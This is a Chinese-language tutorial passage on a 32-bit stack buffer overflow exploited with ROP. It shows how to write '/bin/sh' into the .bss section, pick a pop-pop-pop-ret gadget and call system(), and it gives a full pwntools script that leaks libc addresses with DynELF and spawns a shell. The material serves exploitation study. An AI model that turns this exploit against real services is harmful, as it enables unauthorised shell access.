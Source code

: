 由于程序中没有/bin/sh这个字符串，我们可以**用read函数先它写入内存中一个固定的位置**，然后再执行system函数

**bss段在内存中的位置是固定的**，所以可以将/bin/sh写到bss段中，payload如下：

> 'B' * 140 + p32(read_plt) + p(ret1) + p32(0) + p32(bss_addr) + p32(8) + p32(system_addr) + p32(ret2) + p32(bss_addr)


我们构造的read函数有3个参数，这3个参数和read函数的返回地址ret1不同，返回地址ret1在read函数汇编代码中的ret指令执行时被pop出栈，但是**这3个参数却还留在栈中，没有被弹出栈，这会影响我们构造的下一个函数system的执行**。所以我们**需要找一个连续pop三个寄存器的指令来平衡堆栈**。

**所以其中的ret1应当给出gadgets的地址，用于平衡堆栈，再返回到system函数执行。**

这种指令很容易找到，反汇编test程序，在程序本身中找，如下：

> $ objdump -d test | grep pop -C5

![gadgets](pop.jpg)

**找的pop指令后面还需要带有一个ret指令，这样我们平衡堆栈后可以返回到我们构造的system函数**。

可以选取 0x804850d - 0x8048510这四条指令:

> pop ebx; pop esi; pop ebp; ret

**形如这样的一串汇编指令也叫作gadgets，在ROP攻击中利用很广泛。[ret，pop等组成的]**gadgets散落在程序汇编代码的各个角落，当程序的代码很长的时候，寻找gadgets就会变得很复杂，因此有人写过工具专门用来寻找程序中的gadgets,比如ROPgadgets。

### 3.漏洞利用脚本  ###

	#!/usr/bin/python 
    from pwn import *
    
    p = process('test')
    elf = ELF('test')
    
    read_plt = elf.symbols['read']
    write_plt = elf.symbols['write']
    main = elf.symbols['main']
    
    def leak(address):
	    payload1 = "A" * 140 + p32(write_plt) + p32(main) + p32(1) + p32(address) + p32(4)
	    p.sendline(payload1)
	    data = p.recv(4)
	    log.info("%#x => %s" % (address, (data or '').encode('hex')))
	    return data
    
    d = DynELF(leak, elf=ELF('test'))
    
    system_addr = d.lookup('system', 'libc')
    log.info("system_addr = " + hex(system_addr))
    
    bss_addr = elf.symbols['__bss_start'] #获得bss段首地址，写入“/bin/sh”
    pppr = 0x804850d #gadgets的地址，3个pop+1ret
     
    payload2 = "B" * 140 + p32(read_plt) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8)
    payload2 += p32(system_addr) + p32(main) + p32(bss_addr)
    #payload先写入"/bin/sh",再调用system函数
    
	p.sendline(payload2)
    p.sendline("/bin/sh\0") #将"/bin/sh"传送到远程终端作为输入
    
